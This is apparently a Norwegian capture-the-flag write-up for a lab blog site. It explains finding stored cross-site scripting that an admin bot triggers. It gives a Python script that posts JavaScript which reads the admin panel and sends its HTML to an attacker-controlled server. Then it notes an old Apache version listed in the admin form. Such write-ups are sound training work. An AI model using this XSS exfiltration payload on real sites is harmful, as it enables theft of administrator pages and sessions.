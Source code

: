 */auth/login* er hvor vi logget inn, og */auth/register* var en registreringsside for nye brukere, men registreringen var slått av.

Etter mye leting og leking på nettsiden fant man ut at admin kommenterer på blogginnleggene man lager. I tillegg er XSS (Cross-site scripting) mulig å utføre på bloggen. Dette betyr at vi kan få kodesnutter til å kjøre på maskinen til andre som laster inn bloggen, som i dette tilfellet er admin, siden han kommenterer på innleggene våre. Vi kan dermed prøve å få aksess til */admin*, som virker som er adminpanelet til siden.

Det var mye prøving og feiling for å få dette til å fungere. Den endelige løsningen endte opp med å lage et blogginnlegg med javasciptkode som kjører når admin laster inn siden. Scriptet får admin til å aksessere */admin* (adminpanelet), og når admin har kildekoden til */admin* nettsiden, få han til å sende en GET-request til en lokal python-server. HTML-koden blir sendt i url-en som han requester fra python-serveren, og vi har dermed kildekoden til adminpanelet (merk at HTML-koden er base64 enkodet når det ankommer serveren vår, så dette å dekodes først).

Scriptet ble seende slik ut:
```python
import requests

s = requests.Session()
cookie = {"session": "eyJmbGFnIjoiMGEwZGZmZmRmYTdhN2U2ZDRhYzBhNGM1YWI0N2E1YjEiLCJ1c2VyX2lkIjoxNn0.Yb4jYQ.zIC4uLs8BbGY7jdKECjQHITekHk"}

script = """<script>
    xhr = new XMLHttpRequest();
    xhr.open("GET","/admin/");
    xhr.send();
    xhr.onload = function(){
         request = new XMLHttpRequest();
         request.open("GET", "http://<ip_addr_pythonserver>:<port>/"+encodeURI(xhr.responseText), true);
         request.send();
}    
</script>"""

blogpost = {"title": "Mission Plan", "body": script}
res = s.post("http://blog.utl/create", data=blogpost, cookies=cookie)
s.close()
```
I HTML-koden finner vi flagget `<h1> FLAG: xxxxxxxx </h1>`

# 2.4_webserver_1
I HTML-koden vi får fra admin finner vi følgende interessante kodesnutt:
```html
<form action="/admin/update" method="post">
    <label for="service">Service:</label>
    <select name="service" class="selectpicker form-control">

      <option value="apache">anvilshop.utl ( apache )</option>

    </select>

    <label for="version">Version</label>
    <select name="version" class="selectpicker form-control">

        <option value="2.4.51">2.4.51</option>
        <option value="2.4.49">2.4.49</option>

    </select>
    <input class="btn" type="submit" value="Update">
  </form>
```